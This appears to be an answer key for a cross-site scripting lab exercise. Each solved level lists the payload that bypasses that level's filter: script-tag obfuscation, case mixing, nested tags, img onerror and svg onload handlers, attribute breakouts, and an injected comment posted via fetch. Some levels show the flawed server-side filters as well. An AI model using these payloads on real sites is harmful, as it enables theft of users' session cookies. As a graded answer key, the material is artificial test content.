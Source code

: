 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
<script>success(document.cookie)</script>
```

# 2. No Script Allowed (3 points)

```
<script><script>success(document.cookie)</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
<scrscriptipt>success(document.cookie)</scrscriptipt>
```

# 4. An Open-and-Shut Case (3 points)

```
<SCRIPT>success(document.cookie)</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

```
<ScRiPt>success(document.cookie)</ScRiPt>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
<img src=1 onerror=success(document.cookie)></img>
```

# 7. Between a Rock And a Hard Place (3 points)

```
<img src=1 ononerror=error = success(document.cookie)></img>
```

# 8. Angle of Death (6 points)

Attack input:

```
<<script>>success(document.cookie)</script>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''
  let oldQ
  while (q !== oldQ) {
    oldQ = q
    q = q.replace(/<|>/g, '')
  }
  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
<iframe src="<svg onload=success(document.cookie)>">
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
<iframe src=""<svg onload=success(document.cookie)>"">
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  let oldQ
  while (q !== oldQ) {
    oldQ = q
    q = q.replace(/"/g, '')
  }

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
'><img src=x onerror=success(document.cookie)>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  q = htmlAttributeEscape(q)

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
" onload=success(1)
```

# 15. The Early Bird Catches the Worm (3 points)

```
</ScrIpt><script>success(1)</script>
```

# 16. Tying Up Loose Ends (3 points)

```
<<//ScrIpt><script>success(1)<<//script>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```
<script>/* Bad stuff here... */</script>

js:

 function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}
```

# 18. Congrats

N/A

# Əlavə qeydlər

```
Əlavə qeydlərinizi yazın
```
